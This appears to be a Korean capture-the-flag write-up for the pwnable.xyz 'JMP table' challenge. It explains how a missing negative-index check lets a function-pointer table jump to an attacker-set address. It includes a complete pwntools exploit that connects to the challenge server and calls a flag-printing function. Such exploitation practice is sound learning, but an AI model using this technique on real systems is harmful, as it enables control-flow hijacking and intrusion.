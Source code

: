 ```yaml
---
title: "[pwnable.xyz]JMP table"
date: 2020-1-25
ctf: Pwnable.xyz
layout: post
---
```


메인에서는 입력받고 함수 포인터로 각각 기능들을 실행해준다. 

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // [rsp+Ch] [rbp-4h]

  setup(*&argc, argv, envp);
  while ( 1 )
  {
    print_menu();
    printf("> ");
    v3 = read_long();
    if ( v3 <= 4 )
      (*(&vtable + v3))();
    else
      puts("Invalid.");
  }
}
```

취약점은 음수 체크를 안한다. 그래서 함수포인터에서 read_long()에서 입력받은 값으로 4이하 모든 곳에 참조할 수 있다. 근데 마침 vtable뒤에 heap_buffer와 size가 존재한다. size에 원하는 주소 값을 넣어서 해당 변수를 참조하면 원하는 주소로 뛸 수 있다.

```
.data:00000000006020B0                 public size
.data:00000000006020B0 ; size_t size
.data:00000000006020B0 size            dq 1                    ; DATA XREF: do_malloc+1E↑w
.data:00000000006020B0                                         ; do_malloc+25↑r ...
.data:00000000006020B8                 public heap_buffer
.data:00000000006020B8 ; void *heap_buffer
.data:00000000006020B8 heap_buffer     dq 1                    ; DATA XREF: do_malloc+3F↑w
.data:00000000006020B8                                         ; do_malloc+50↑w ...
.data:00000000006020C0                 public vtable
.data:00000000006020C0 vtable          dq offset do_exit       ; DATA XREF: main+4E↑o
.data:00000000006020C8                 dq offset do_malloc
.data:00000000006020D0                 dq offset do_free
.data:00000000006020D8                 dq offset do_read
.data:00000000006020E0                 dq offset do_write
.data:00000000006020E0 _data           ends
```

사이즈는 `do_malloc()` 함수에서 변경 가능하다 이 영역을 `cat /flag` 해주는 함수 주소로 덮어쓴다. 그리고 vtable과 size 주소의 차이는 16이니까 -2 해주면 flag 출력해주는 함수를 실행할 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30007)
flag = e.symbols['_']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
s = lambda x : p.send(x)

def malloc(size):
	sla('>','1')
	sla(':',str(size))

def free():
	sla('>','2')

def read(data): #input
	sla('>','3')
	s(data)

def write(): # print
	sla('>','4')

def quit():
	sla('>','5')

malloc(flag)
sla('>','-2')

p.interactive()
```

